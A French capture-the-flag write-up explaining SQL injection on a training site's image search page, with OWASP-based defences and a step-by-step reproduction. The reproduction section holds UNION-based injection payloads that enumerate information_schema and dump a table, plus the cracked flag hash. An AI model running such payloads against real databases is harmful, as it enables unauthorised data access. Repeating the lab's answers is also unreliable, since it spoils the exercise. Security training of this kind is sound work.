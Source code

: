 # SQL Injection


## URL

/index.php?page=searchimg

## Description

Une attaque par injection SQL consiste à insérer une requête SQL via les données envoyées par le client à l'application. </br>
Une exploitation réussie permet de lire, modifier ou supprimer des données de la base, d'exécuter des opérations d'administration (comme arrêter le SGBD), d'accéder à des fichiers du système ou, dans certains cas, de lancer des commandes sur le système d'exploitation. Les attaques par injection SQL font partie des attaques par injection, où des commandes SQL sont insérées dans les entrées de données pour affecter l'exécution de commandes SQL prédéfinies.
Les attaques par injection SQL permettent aux attaquants de falsifier des identités, manipuler des données, annuler des transactions, divulguer ou détruire des données, ou devenir administrateurs du serveur de base de données. Elles sont fréquentes dans les applications PHP et ASP en raison des interfaces fonctionnelles anciennes. Les applications J2EE et ASP.NET sont moins vulnérables. La gravité de ces attaques dépend des compétences de l'attaquant, mais reste généralement élevée, malgré les mesures de défense. </br>
[Lien OWASP SQL injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Se protéger

1. Utiliser des requêtes préparées (avec paramètres) : Cette méthode sépare les données du code SQL, empêchant ainsi toute modification malveillante des requêtes.
2. Recourir à des procédures stockées sécurisées : Elles permettent d'exécuter des commandes SQL prédéfinies de manière sécurisée, à condition qu'elles ne construisent pas dynamiquement des requêtes avec des entrées non sécurisées.
3. Valider les entrées utilisateur : Appliquer une validation stricte (par exemple, via des listes blanches) pour s'assurer que les données reçues correspondent aux formats attendus, réduisant ainsi le risque d'injection.
4. Limiter les privilèges des comptes de base de données : Attribuer uniquement les permissions nécessaires aux comptes utilisés par l'application, minimisant ainsi l'impact potentiel d'une injection réussie.
5. Éviter l'échappement manuel des entrées : Cette pratique est déconseillée car elle est sujette à des erreurs et peut être insuffisante pour prévenir toutes les formes d'injection.

[Lien OWASP Injection prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
[Lien OWASP Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)

## Reproduire la faille

on nous demande d'entrer un identifiant numérique qui correspond au numéro d'une image, probablement un INTEGER.
même procédé que pour la page de membres. D’ailleurs nous retrouvons les mêmes données, il faut simplement qu’on regarde une autre table.

Si on entre 5 on peut voir :

```sql
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

list_images semble pas mal :

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: id
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: url
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: title
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: comment
Url : list_images

1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images

ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 2
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 3
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 4
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

## Déchiffrer le flag

Décoder depuis [dcode.fr](https://www.dcode.fr/hash-md5):
Déchiffrement du hash MD5 `1928e8083cf461a51303633093573c46` : **albatroz**
Chiffrer `albatroz` en sha256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

